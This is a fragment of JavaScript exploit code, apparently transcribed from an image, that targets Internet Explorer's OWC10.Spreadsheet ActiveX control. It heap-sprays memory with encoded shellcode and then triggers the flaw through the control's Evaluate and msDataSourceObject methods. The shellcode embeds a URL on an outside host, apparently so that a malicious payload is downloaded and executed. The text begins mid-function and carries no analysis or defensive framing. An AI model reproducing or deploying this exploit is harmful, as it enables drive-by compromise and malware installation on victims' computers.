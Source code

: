 ```c
			var shellcode=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D");
			
			var array=new Array();
			var ls=0x81000-(shellcode.length*2);
			var bigblock=unescape("%u0b0c%u0b0C");
			
			while(bigblock.length<ls/2){
				bigblock+=bigblock;
			}
			
			var lh=bigblock.substring(0,ls/2);
			delete bigblock;
			
			for(var i=0;i<0x99*2;i++){
				array[i]=lh+lh+shellcode;
			}
			
			CollectGarbage();
			
			var objspread=new ActiveXObject("OWC10.Spreadsheet");
			e=new Array();e.push(1);e.push(2);
			e.push(0);
			e.push(window);
			
			for(i=0;i<e.length;i++){
				for(j=0;j<10;j++){
					try{
						objspread.Evaluate(e[i]);
					}catch(e){}
				}
			}
			window.status=e[3]+"";
			for(j=0;j<10;j++){
				try{
					objspread.msDataSourceObject(e[3]);
				} catch(e){} 
			}
		} catch(e){}
	}
	Complete();
}
mdac();
```
